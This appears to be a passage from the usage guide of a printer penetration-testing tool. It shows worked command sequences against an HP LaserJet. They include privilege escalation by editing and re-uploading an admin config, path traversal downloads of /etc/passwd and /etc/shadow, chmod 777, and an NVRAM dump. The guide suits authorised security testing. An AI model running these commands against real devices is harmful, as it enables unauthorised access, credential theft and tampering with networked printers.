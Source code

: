 
---

### Example 17: Privilege Escalation

```bash
# Scenario: Gain admin access via filesystem

# 1. Check current permissions
192.168.1.100:/> permissions /etc/passwd
File /etc/passwd is accessible

# 2. Download admin config
192.168.1.100:/> download /etc/admin.cfg

# 3. Modify and upload
$ sed -i 's/USER_LEVEL=1/USER_LEVEL=0/' admin.cfg

192.168.1.100:/> upload admin.cfg /etc/admin.cfg

# 4. Restart to apply
192.168.1.100:/> restart

# 5. Verify escalation
192.168.1.100:/> id
Device ID: HP LaserJet 4250 [ADMIN MODE]
```

---

## 📋 Batch Testing Examples

### Example 18: Automated Vulnerability Scan

**Create scan script** (`vuln_scan.txt`):
```
# Comprehensive vulnerability scan
id
network
variables

# Test filesystem access
ls
ls /etc
ls /etc/passwd
find

# Test path traversal
download ../../../etc/passwd
download ../../rw/var/sys/passwd
download 0:/../../../etc/shadow

# Test write access
touch /tmp/vuln_test.txt
upload test.txt /tmp/test.txt
delete /tmp/test.txt

# Test permissions
permissions /etc/passwd
permissions /etc/shadow
chmod 777 /etc/test

# Test information disclosure
nvram dump
```